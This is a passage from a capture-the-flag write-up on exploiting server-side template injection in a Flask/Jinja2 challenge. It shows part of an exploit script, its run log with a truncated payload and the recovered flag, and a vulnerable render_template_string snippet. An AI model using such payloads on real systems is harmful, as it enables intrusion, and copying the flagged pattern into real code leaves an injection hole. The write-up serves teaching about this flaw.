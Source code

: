```python
            
        flag = self.extract_flag()
        if flag:
            print(f"[+] Exploitation successful!")
            return True
        else:
            print("[-] Failed to extract flag")
            return False

if __name__ == "__main__":
    target = "http://challs.0x4m4.com:8081"
    exploit = DataExfiltrationExploit(target)
    exploit.exploit()
```

## Running the Exploit

When I executed the complete exploitation:

```bash
python3 exploit.py
[*] Starting exploitation of http://challs.0x4m4.com:8081
[*] Accessing debug page...
[+] Debug page accessed successfully!
[*] Logging in as admin...
[+] Admin login successful!
[*] Testing for SSTI vulnerability...
[+] SSTI vulnerability confirmed!
[*] Extracting flag using SSTI...
[*] Trying payload: {{ request.application.__globals__.__builtins__...
[+] Flag found: sscit{t3mpl4t3_1nj3ct10n_3xp0s3s_r3g1m3_s3cr3ts}
[+] Exploitation successful!
```

## Technical Deep Dive

### Understanding SSTI in Flask/Jinja2

Server-Side Template Injection occurs when user input is directly passed to template engines without proper sanitization. In this case:

```python
# Vulnerable code (simplified)
@app.route('/admin/generate_report', methods=['POST'])
def generate_report():
    template = request.form.get('custom_template')
    # DANGEROUS: Direct rendering of user input
    return render_template_string(template, **context)
```

### Jinja2 Template Context
